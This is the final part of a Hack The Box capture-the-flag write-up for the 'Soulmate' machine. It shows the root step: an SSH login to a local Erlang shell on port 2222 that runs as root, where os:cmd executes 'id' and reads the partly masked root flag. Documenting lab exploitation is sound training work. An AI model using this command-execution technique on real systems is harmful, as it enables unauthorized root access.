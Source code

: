 ## Shell as root

### Connecting to localhost port 2222 (Erlang SSH Shell)

```
ben@soulmate:/$ ssh ben@127.0.0.1 -p 2222
ben@127.0.0.1's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)3> os:cmd("cat /root/root.txt").
"851506a3c8a1cedc8f340d21xxxxxxx7\n"
(ssh_runner@soulmate)4> 
```

[Badge](https://labs.hackthebox.com/achievement/machine/1737187/721)

